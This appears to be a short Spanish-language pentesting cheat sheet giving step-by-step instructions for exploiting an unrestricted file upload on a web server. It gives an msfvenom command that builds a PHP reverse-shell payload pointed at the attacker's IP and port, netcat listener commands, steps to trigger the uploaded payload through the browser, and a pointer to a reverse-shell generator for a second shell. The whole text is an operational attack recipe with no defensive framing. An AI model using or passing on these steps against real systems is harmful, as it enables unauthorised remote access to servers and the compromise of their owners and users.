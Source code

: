 # 1.Encontrar un lugar que permita subir archivos
# 2.Encontrar la ruta en la que se suben los archivos

# 3.Crear un Payload para subir

```bash
msfvenom -p php/reverse_php LHOST=<"IP Atancante"> LPORT=<"Puerto de conexion a la maquina atacante"> -f raw > pwned.php
```

# 4.Subir el Payload

# 5.Poner la máquina a la escucha
## Netcat
```bash
nc -nlvp <"Puerto que hemos especificado en el payload">
```

# 6.Abrir en el navegador la ruta en la que se suben los archivo y abrir el Payload

# 7. Poner la máquina atacante a la escucha en otro puerto distinto

## Netcat
```bash
nc -nlvp <"Puerto a la escucha, distinto al del payload">
```

# 8.Enviar una reverse shell al nuevo puerto
Utilizando: https://www.revshells.com/